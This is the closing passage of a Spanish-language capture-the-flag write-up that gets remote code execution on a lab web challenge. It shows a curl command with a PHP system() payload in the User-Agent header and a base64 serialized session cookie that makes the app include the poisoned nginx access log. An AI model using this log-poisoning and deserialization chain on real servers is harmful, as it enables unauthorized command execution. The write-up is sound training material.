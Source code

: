 ```

```
206.189.29.104 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0 bin
```

Y el resultado fue:

![](/assets/img/toxic/5.png)

Ahi mismo podemos ver la flag, y como ultimo debemos de hacerle un cat, en esta caso usare curl para que vean tambien como es:

```
url -i -v <URL> -A "<?php system('cat /flag_uDwMK'); ?>" -b "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo="
```

(el nombre de la flag es diferente por que tuve que hace otra instancia)

Y listo, asi conseguimos la flag:

![](/assets/img/toxic/6.png)

Joder, esto si es RCE  🚬

Eso ha sido todo, gracias por leer ❤
